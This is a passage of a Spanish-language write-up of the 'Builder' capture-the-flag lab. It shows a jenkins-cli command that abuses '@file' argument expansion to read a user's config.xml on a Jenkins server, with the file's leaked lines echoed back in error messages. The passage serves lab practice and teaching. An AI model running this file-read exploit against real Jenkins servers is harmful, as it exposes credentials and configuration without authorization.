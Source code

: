 Y obtenemos un usuario jennifer_12108429903186576833 que ahora poodemos buscar.
```bash
❯ java -jar jenkins-cli.jar -s http://10.10.11.10:8080/ offline-node @/var/jenkins_home/users/jennifer_12108429903186576833/config.xml
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
    <hudson.tasks.Mailer_-UserProperty plugin="mailer@463.vedf8358e006b_">: No such agent "    <hudson.tasks.Mailer_-UserProperty plugin="mailer@463.vedf8358e006b_">" exists.
    <hudson.search.UserSearchProperty>: No such agent "    <hudson.search.UserSearchProperty>" exists.
      <roles>: No such agent "      <roles>" exists.
    <jenkins.security.seed.UserSeedProperty>: No such agent "    <jenkins.security.seed.UserSeedProperty>" exists.
      </tokenStore>: No such agent "      </tokenStore>" exists.
    </hudson.search.UserSearchProperty>: No such agent "    </hudson.search.UserSearchProperty>" exists.
      <timeZoneName></timeZoneName>: No such agent "      <timeZoneName></timeZoneName>" exists.
  <properties>: No such agent "  <properties>" exists.
    <jenkins.security.LastGrantedAuthoritiesProperty>: No such agent "    <jenkins.security.LastGrantedAuthoritiesProperty>" exists.
      <flags/>: No such agent "      <flags/>" exists.
    <hudson.model.MyViewsProperty>: No such agent "    <hudson.model.MyViewsProperty>" exists.
</user>: No such agent "</user>" exists.
    </jenkins.security.ApiTokenProperty>: No such agent "    </jenkins.security.ApiTokenProperty>" exists.
      <views>: No such agent "      <views>" exists.
        <string>authenticated</string>: No such agent "        <string>authenticated</string>" exists.
    <org.jenkinsci.plugins.displayurlapi.user.PreferredProviderUserProperty plugin="display-url-api@2.200.vb_9327d658781">: No such agent "    <org.jenkinsci.plugins.displayurlapi.user.PreferredProviderUserProperty plugin="display-url-api@2.200.vb_9327d658781">" exists.
<user>: No such agent "<user>" exists.
          <name>all</name>: No such agent "          <name>all</name>" exists.
  <description></description>: No such agent "  <description></description>" exists.
      <emailAddress>jennifer@builder.htb</emailAddress>: No such agent "      <emailAddress>jennifer@builder.htb</emailAddress>" exists.
      <collapsed/>: No such agent "      <collapsed/>" exists.
    </jenkins.security.seed.UserSeedProperty>: No such agent "    </jenkins.security.seed.UserSeedProperty>" exists.
    </org.jenkinsci.plugins.displayurlapi.user.PreferredProviderUserProperty>: No such agent "    </org.jenkinsci.plugins.displayurlapi.user.PreferredProviderUserProperty>" exists.
    </hudson.model.MyViewsProperty>: No such agent "    </hudson.model.MyViewsProperty>" exists.
      <domainCredentialsMap class="hudson.util.CopyOnWriteMap$Hash"/>: No such agent "      <domainCredentialsMap class="hudson.util.CopyOnWriteMap$Hash"/>" exists.
          <filterQueue>false</filterQueue>: No such agent "          <filterQueue>false</filterQueue>" exists.
    <jenkins.security.ApiTokenProperty>: No such agent "    <jenkins.security.ApiTokenProperty>" exists.
      <primaryViewName></primaryViewName>: No such agent "      <primaryViewName></primaryViewName>" exists.
      </views>: No such agent "      </views>" exists.
    </hudson.model.TimeZoneProperty>: No such agent "    </hudson.model.TimeZoneProperty>" exists.
    <com.cloudbees.plugins.credentials.UserCredentialsProvider_-UserCredentialsProperty plugin="credentials@1319.v7eb_51b_3a_c97b_">: No such agent "    <com.cloudbees.plugins.credentials.UserCredentialsProvider_-UserCredentialsProperty plugin="credentials@1319.v7eb_51b_3a_c97b_">" exists.
    </hudson.model.PaneStatusProperties>: No such agent "    </hudson.model.PaneStatusProperties>" exists.
    </hudson.tasks.Mailer_-UserProperty>: No such agent "    </hudson.tasks.Mailer_-UserProperty>" exists.
        <tokenList/>: No such agent "        <tokenList/>" exists.
    <jenkins.console.ConsoleUrlProviderUserProperty/>: No such agent "    <jenkins.console.ConsoleUrlProviderUserProperty/>" exists.
        </hudson.model.AllView>: No such agent "        </hudson.model.AllView>" exists.
      <timestamp>1707318554385</timestamp>: No such agent "      <timestamp>1707318554385</timestamp>" exists.
```